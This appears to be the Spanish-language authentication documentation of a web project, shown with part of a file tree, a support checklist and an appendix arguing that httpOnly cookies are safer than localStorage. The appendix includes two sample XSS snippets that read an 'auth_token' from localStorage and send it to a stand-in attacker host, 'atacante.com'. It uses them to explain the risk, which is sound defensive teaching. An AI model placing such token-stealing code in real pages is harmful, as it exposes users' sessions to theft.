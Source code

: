 ```
│   │   ├── authRoutes.ts               # Rutas de autenticación (/auth/*)
│   │   └── userRoutes.ts               # Rutas de usuario (/users/*)
│   └── services/
│       └── authService.ts              # Lógica de negocio de autenticación
```

## Contacto y Soporte

Para problemas relacionados con autenticación:
1. Consultar este documento primero
2. Verificar el checklist de verificación
3. Ejecutar los comandos de debug
4. Si el problema persiste, documentar el error específico y los pasos para reproducirlo


---

## Apéndice: localStorage vs httpOnly Cookies

### ¿Por qué httpOnly Cookies son Más Seguras?

**Problema con localStorage**: Es accesible desde JavaScript, lo que lo hace vulnerable a ataques XSS (Cross-Site Scripting).

#### Escenario de Ataque XSS

```javascript
// Si un atacante logra inyectar este código en tu sitio:
const token = localStorage.getItem('auth_token');
fetch('https://atacante.com/robar', {
  method: 'POST',
  body: JSON.stringify({ token })
});
```

#### ¿Cómo puede inyectarse código malicioso?

1. **Comentarios/reviews sin sanitizar**:
   ```html
   <script>
     fetch('https://atacante.com/steal?token=' + localStorage.getItem('auth_token'))
   </script>
   ```

2. **Dependencias npm comprometidas**: Un paquete que instalas contiene código malicioso

3. **Extensiones de navegador maliciosas**: Pueden leer localStorage de cualquier sitio

4. **Librerías de terceros hackeadas**: Analytics, ads, widgets comprometidos

#### Protección de httpOnly Cookies

```javascript
// Con httpOnly cookies, este código NO funciona:
document.cookie // No puede leer cookies con flag httpOnly
localStorage.getItem('auth_token') // No existe el token aquí
```
